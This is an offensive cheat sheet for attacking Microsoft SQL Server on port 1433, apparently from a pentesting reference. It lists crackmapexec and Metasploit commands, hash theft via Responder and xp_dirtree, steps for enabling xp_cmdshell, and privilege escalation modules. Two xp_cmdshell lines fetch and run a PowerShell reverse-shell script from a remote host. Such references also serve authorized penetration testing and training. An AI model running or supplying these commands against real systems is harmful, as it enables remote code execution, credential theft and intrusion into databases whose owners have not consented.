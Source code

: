 # Port 1433 - MSSQL

Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications which may run either on the same computer or on another computer across a network (including the Internet).

## Execute Commands

```bash
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"

# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE

# This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```

## Metasploit

```bash
# Steal NTLM hash, before executing run Responder
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer 
# Set USERNAME, RHOSTS and PASSWORD
# Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

# Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump

# Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

# Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

# Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

# Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```

## With Credentials
### Impacket
You can login into the service using `impacket mssqlclient.py`.

```bash
mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine

#Once logged in you can run queries:
SQL> select @@ version;

#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat

#Try to enable code execution
SQL> enable_xp_cmdshell

#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```

### SQSH
```bash
sqsh -S <IP> -U <Username> -P <Password> -D <Database>

1. try and see if it works
        > xp_cmdshell `whoami`
        > go

    2. try to turn component back on
        > EXEC SP_CONFIGURE 'xp_cmdshell' , 1
        > reconfigure
        > go
        > xp_cmdshell `whoami`
        > go

    3. 'advanced' turn it back on
        > EXEC SP_CONFIGURE 'show advanced options', 1
        > reconfigure
        > go
        > EXEC SP_CONFIGURE 'xp_cmdshell' , 1
        > reconfigure
        > go
        > xp_cmdshell 'whoami'
        > go

# If RCE works we can get a reverse shell
> xp_cmdshell "powershell.exe -exec bypass iex(new-object net.webclient).downloadstring('http://10.10.14.60:8000/revshell.ps1')"
```